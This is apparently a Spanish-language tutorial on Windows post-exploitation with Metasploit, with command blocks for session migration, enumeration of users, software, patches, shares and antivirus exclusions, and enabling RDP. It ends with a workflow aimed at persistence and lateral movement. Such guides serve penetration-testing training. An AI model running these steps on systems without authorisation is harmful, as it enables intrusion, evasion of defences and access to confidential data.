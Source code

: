 # Post-Explotación en Windows con Metasploit

## Introducción

Una vez obtenida una sesión Meterpreter en una máquina Windows, Metasploit proporciona varios **módulos de post-explotación** que permiten recolectar información sensible del sistema, realizar movimientos laterales y establecer persistencia.

---

## 1. Migración a un proceso más estable

### Módulo: `windows/manage/migrate`

```bash
use post/windows/manage/migrate
set SESSION <id>
run
```

Este módulo **mueve la sesión Meterpreter a otro proceso**, idealmente uno más estable como `explorer.exe` para mejorar la persistencia y evitar que el payload muera si el proceso original se cierra.

---

## 2. Enumerar usuarios conectados

### Módulo: `post/windows/gather/enum_logged_on_users`

```bash
use post/windows/gather/enum_logged_on_users
set SESSION <id>
run
```

Este módulo **muestra los usuarios que están o han estado conectados** en la máquina, útil para identificar cuentas privilegiadas.

---

## 3. Detectar si estamos en una máquina virtual

### Módulo: `post/windows/gather/checkvm`

```bash
use post/windows/gather/checkvm
set SESSION <id>
run
```

Sirve para **identificar si la máquina víctima es una VM**, lo cual puede indicar que estás en un entorno de laboratorio o honeypot.

---

## 4. Enumerar aplicaciones instaladas

### Módulo: `post/windows/gather/enum_applications`

```bash
use post/windows/gather/enum_applications
set SESSION <id>
run
```

Este módulo lista **todas las aplicaciones instaladas**, útil para buscar software vulnerable o identificar el uso del sistema.

---

## 5. Usar el sistema de loot de Metasploit

Los resultados generados por los módulos anteriores se almacenan en el sistema de **loot** de Metasploit.

```bash
loot
```

Muestra los archivos descargados y datos recolectados en la sesión.

---

## 6. Ver exclusiones del antivirus

### Módulo: `post/windows/gather/enum_av_excluded`

```bash
use post/windows/gather/enum_av_excluded
set SESSION <id>
run
```

Muestra **carpetas, archivos y extensiones excluidas del escaneo del antivirus**, ideal para esconder herramientas o persistencia.

---

## 7. Enumerar otros equipos conectados

### Módulo: `post/windows/gather/enum_computers`

```bash
use post/windows/gather/enum_computers
set SESSION <id>
run
```

Este módulo intenta **descubrir otros ordenadores dentro del mismo dominio o red**.

---

## 8. Ver parches instalados

### Módulo: `post/windows/gather/enum_patches`

```bash
use post/windows/gather/enum_patches
set SESSION <id>
run
```

Permite saber **qué actualizaciones y parches tiene el sistema**, y por lo tanto, detectar vulnerabilidades no corregidas.

---

## 9. Enumerar carpetas compartidas

### Módulo: `post/windows/gather/enum_shares`

```bash
use post/windows/gather/enum_shares
set SESSION <id>
run
```

Busca **recursos compartidos en red (shares)** en el sistema, muy útil para **movimiento lateral** o acceso a archivos confidenciales.

---

## 10. Habilitar escritorio remoto (RDP)

### Módulo: `post/windows/manage/enable_rdp`

```bash
use post/windows/manage/enable_rdp
set SESSION <id>
run
```

Este módulo **activa el servicio RDP en el sistema víctima**, permitiendo el acceso remoto por escritorio si luego conoces las credenciales.

---

## Recomendación de flujo de trabajo

1. Migrar la sesión a `explorer.exe` con `migrate`.
2. Ejecutar módulos de recolección de usuarios, software y red.
3. Guardar toda la información con `loot`.
4. Explorar posibles caminos para persistencia o escalada de privilegios.
5. Habilitar RDP o generar nuevas sesiones si es necesario.

